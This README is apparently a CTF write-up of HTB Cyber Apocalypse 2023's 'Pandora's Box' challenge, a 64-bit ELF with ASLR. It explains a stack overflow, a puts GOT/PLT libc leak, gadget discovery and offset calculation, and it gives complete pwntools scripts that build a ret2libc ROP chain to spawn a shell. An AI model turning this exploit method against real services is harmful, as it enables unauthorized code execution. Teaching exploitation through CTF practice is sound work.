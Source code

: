 
# Return-to-libc/ret2libc -64bit ELF ASLR - HTB Cyber Apocalypse 2023 CTF Pandora's box 


## This is my writeup for the "Pandora's Box" challange from HTB Cyber Apocalypse 2023 CTF.

### Consider giving this a star if you found it helpfull

After downloading the pb file we run the ```file ./pb``` command wich gives the folowing output:

![alt text](images/file.png?raw=true "File")

We can see that the pb file is a 64 bit elf file.

if we run checksec we can see that NX is enabled so no stack execution.

if we analyze the file in ghidra we can see that the main function calls 4 other functions, setup(), cls(), banner() and box. Most of them are not intresting but the box function is.

![alt text](images/ghidra.png?raw=true "File")

The Box function contains a vulnarble fgets() fucntion. but we have to make sure the first input we give it is '2'. If we run the program we also see that if we choose option 2 it asks us for a input.

If we input some random characters the program wil send a message and shut down. If we give the program an input of A's, thats really long we get an error and the program exits. This is the vulnarble fgets()

![alt text](images/segfault.png?raw=true "seg")

When we run a obj dump (```objdump ./pb -d```). we can see that the program contains no obvious win function. It does contain a box() function. So no re2win challange. but by looking at the functions in ghidra we know the program uses some functions from libc like puts(), prinf(), read() and more. So this looks like a ret2libc challange. Also it ask us for a location in the "library" so...


If we open the program in gdb we can get a better look at what is going on inside. ```gdb ./pb``` (Note: I am using geff extention for gdb). We know the second input is vulnarble so i create a cyclic pattern wiht gbd (```pattern create```) and use that to find the offset. If we copy and paste the cyclic pattern in the input end press enter tho program overflows and we can find our offset by searching fot the first 4 characters of the rsp register. (```pattern search haaa```)
![alt text](images/overflow.png?raw=true "overflow")

Because the file is a 64 bit elf the RIP address has to be a 48 bit canonical address wich means the address has to be in the range ```0x0000000000000000``` to ```0x00007FFFFFFFFFFF``` and ```0xFFFF800000000000``` to ```0xFFFFFFFFFFFFFFFF```. otherwise the address wont be able to clutter the RIP. If we input a bunch of A's we are overwriting the rip with a non-canonical address. If we however run the program with 56 A's (offset) and add a 6 bytes canonial address of 6 B's ```0x0000424242424242``` to the end we can see we can control the RIP.

The ret-to-libc technique is similar to the standard stack overflow attack with one important distinction: instead of overwriting the return address of the vulnerable function with the address of the shellcode, the return address is going to point to a function in the libc library like system(), so we can execute shell code that is stored in the regestry as arguments.

before we can point to system its important to know if ASLR (Address Space Layout Randomisation) is enabled. For that we can run the ```ldd ./pb``` function twice and compare the address of libc. When we do this we can see that the adress dont match so ASLR is enabled and this means we have to leak the adress of libc first before we can find system() in libc.

![alt text](images/ldd.png?raw=true "ldd")

to leak the adress we first need to find out the adress of a libc function in both the GOT and the PLT, we can use ghidra for this part again. With ghidra we can select the .got and .plt sections in the program trees. Here we have to find the addresses of a libc funciton in both. In this case I used puts().

![alt text](images/got.png?raw=true "got")

after that we we need to find a "pop rdi, ret" gadget adress with ```ropper -f ./pb | grep rdi```and combine this with the adress of got and plt puts() to leak the addres of puts() in libc and from there we can caluclate the base adress of libc. I made a python script to do this using pwntools.

```
from pwn import *
from time import sleep
import sys

r =gdb.debug('./pb', '''

        c
''')


r    = remote(IP, PORT)
exe = './pb'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'
rop = ROP(elf)








rop.raw("A" * 56) # paddding
rop.raw(0x000000000040142b) # pop rdi
rop.raw(0x00403fa0) # got_put
rop.raw(0x00401030) # plt_put
rop.raw(0x0000000000401016) #ret for stack aligment
rop.raw(0x00000000004013be) #adress in main that does not result in SIGEV

#wait for first read and select option 2
r.recvuntil(b">>") 
r.sendline(b'2')
#wait for second read and send payload
r.recvuntil(b'Insert location of the library: ')
r.sendline(rop.chain())
#reading unimportant bytes
r.recvuntil(b'!\x0a\x0a')
#reading leaked address 
leak = unpack(r.recv()[:6].ljust(8, b"\x00"))

print("Leaked puts:" + str(hex(leak)))

```
The payload consist of a padding, then the pop rdi gadget, adress of puts in got, adress of plt in puts, a ret gadget wich is just a ret instruction to do some stack alligments and not get SIGBUS or SIGEV (```ropper -f ./pb | grep ret```) and lastly an adress in main. I used the call to box() adress in main because returining to main directly seem to result in stack alligment issues. we can find this adress by using ```objdump ./pb -d``` and looking for the main function.

![alt text](images/calbox.png?raw=true "calbox")

After that sending the payload the code returns a lot of bytes most of them being the banner of box() but the last few bytes are the adress of puts() in libc. now we cam just calculate the base adress of libc.

we can do this by finding the offset of puts() in the ./glibc/libc.so.6. while we are finding these ofsets we also need to find the offset of system and a shellcommand so we can use that as argument for system().

we can find the offsets with ```objdump ./glibc/libc.so.6 -d | grep puts``` and  ```objdump ./glibc/libc.so.6 -d | grep system```

![alt text](images/putsinc.png?raw=true "putsinc")

the addres off the ```/bin/sh``` we can find by using ```strings -a -t x ./glibc/libc.so.6 |grep /bin/sh```


from there we just have to calculate the base adress, create our rop chain and retrive a shell.


Here is the rest of the python script using pwn tools to handle the program localy or remotly.

```

from pwn import *
from time import sleep
import sys 


# IP   = '104.248.169.117' 
# PORT = 31796
#r    = remote(IP, PORT)

r =gdb.debug('./pb', '''

        c
''')


exe = './pb'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'
rop = ROP(elf)








rop.raw("A" * 56) # paddding
rop.raw(0x000000000040142b) # pop rdi
rop.raw(0x00403fa0) # got_put
rop.raw(0x00401030) # plt_put
rop.raw(0x0000000000401016) #ret for stack aligment
rop.raw(0x00000000004013be) #adress in main that does not result in SIGEV

#wait for first read and select option 2
r.recvuntil(b">>") 
r.sendline(b'2')
#wait for second read and send payload
r.recvuntil(b'Insert location of the library: ')
r.sendline(rop.chain())
#reading unimportant bytes
r.recvuntil(b'!\x0a\x0a')
#reading leaked address 
leak = unpack(r.recv()[:6].ljust(8, b"\x00"))

print("Leaked puts:" + str(hex(leak)))
rop2 = ROP(elf)
# second part - use leaked address to preform ret2libc
libc_puts = 0x080ed0 
libc_sys  = 0x050d60
libc_sh = 0x1d8698

offset = leak - libc_puts
sys = offset + libc_sys
sh = offset + libc_sh

log.info("Going again:\n")
rop2.raw("A" * 56)
rop2.raw(0x000000000040142b) #pop rdi
rop2.raw(sh) # addres of bin/sh
rop2.raw(0x0000000000401016) #ret stack alligment
rop2.raw(sys)# adress of system


#selecting option 2
r.send(b'2')
r.recvuntil(b'Insert location of the library: ')
#sending payload
r.sendline(rop2.chain())
#SHELL!
r.interactive()

```
![alt text](images/shell.png?raw=true "shell")

I hope this helped you out,
Thanks for reading, Suggestions & Feedback are appreciated !